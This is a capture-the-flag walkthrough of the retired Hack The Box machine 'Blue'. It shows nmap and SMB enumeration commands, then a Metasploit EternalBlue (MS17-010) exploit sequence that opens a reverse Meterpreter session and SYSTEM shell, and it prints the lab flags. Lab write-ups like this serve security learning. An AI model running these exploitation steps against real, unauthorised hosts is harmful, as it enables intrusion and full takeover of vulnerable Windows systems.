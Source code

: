 ```yaml
---
title: "Blue (HTB) — Walkthrough"
date: 2025-09-17
tags: ["htb","windows","smb","ms17-010","privesc"]
series: ["Hack The Box — retired"]
difficulty: "Easy"
platform: "Hack The Box"
summary: "Exploiting MS17-010 (EternalBlue) on a Windows 7 SP1 target. Recon, SMB enumeration, exploitation, and proof of SYSTEM access."
images: ["/images/blue/blue.webp"]
cover:
  image: "/images/blue/blue.webp"
  alt: "Blue HTB image"
  caption: "Blue - CTF - Hack The Box"
  relative: true
  hidden: false

---
```


> ⚠️ **Spoiler warning**: This covers a retired HTB machine. This writeup documents my playthrough of the retired Hack The Box machine **Blue**. 

The VPN IPs shown below are the HTB-assigned VPN addresses used during the box (left intact here for reproducibility). Do not attempt this on non-authorised or active systems.

# Blue (HTB) — Walkthrough

## Overview
- **Platform:** Hack The Box (retired)  
- **Target OS:** Windows 7 Professional SP1  
- **Focus:** SMB enumeration → EternalBlue (MS17-010) → SYSTEM shell  
- **Difficulty:** Easy

---

## Recon

Initial scan:

```bash
nmap -sV -sC -oN scans/blue-initial 10.129.242.117
```
**Result highlights (relevant line)**

445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1
A full scan confirmed SMB was exposed and appeared to be running SMBv1.
![Nmap ports output showing SMB 445 open](/images/blue/nmap.png)


---

## SMB Enumeration

**Anonymous enumeration with enum4linux**

```bash
enum4linux -a 10.129.242.117
```
![enum4linux for SMB enumeration](/images/blue/smb_enumeration.png)

**Anonymous SMB session also succeeded**

```bash
smbclient -L //10.129.242.117/ -N
```

Shares observed:

ADMIN$    C$    IPC$    Share    Users

Given Windows 7 + SMBv1 exposure, EternalBlue (MS17-010) looked likely.
![SMB shares](/images/blue/smb_shares.png)

---

## Exploitation (MS17-010 / EternalBlue)

Check target with Metasploit's SMB version scanner:

```msfconsole
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.129.242.117
msf6 auxiliary(scanner/smb/smb_version) > run
```
**Confirmed vulnerable** 

[+] 10.129.242.117:445 - Host is running Windows 7 Professional SP1
![Metasploit auxiliary module - SMB scanner](/images/blue/metasploit_scanner.png)


**Host is likely VULNERABLE to MS17-010!**

---

## Launch the exploit:

```msfconsole
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.129.242.117
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```
![Metasploit exploit module - ms17_010_eternalblue](/images/blue/metasploit_exploit.png)


**Success:**

[+] Meterpreter session 1 opened
![Meterpreter session to shell](/images/blue/meterpreter_shell.png)


---

## Privilege Escalation

Drop into an interactive shell from Meterpreter:

```meterpreter
meterpreter > shell
```
```interactive shell
C:\Windows\system32> whoami
```
**Result:**

nt authority\system
The exploit provided full SYSTEM privileges.

**User flag:**

```interactive shell
C:\Users\haris\Desktop> type user.txt
```
"1b3265edfce880834b5e8e8fc8ac5a18"
![User flag found](/images/blue/user-flag.png)

**Root flag:**

```interactive shell
C:\Users\Administrator\Desktop> type root.txt
```
"76a957ccd469d05e2883b49b77079847"
![Root flag found](/images/blue/root-flag.png)

---

## Takeaways

Always check SMB version — legacy SMBv1 is a red flag.

EternalBlue is a classic exploit; patched since 2017, but still useful to study.

Metasploit automates exploitation, but understanding the underlying vulnerability (buffer overflow in SMBv1) is important.

Enumeration (enum4linux, smbclient) confirmed access, but exploitation was the real path in this box.

---

## Resources

MS17-010 (Microsoft Security Bulletin).

Hack The Box — retired machines archive.

My GitHub repo (basil9099.github.io) with scans/notes.

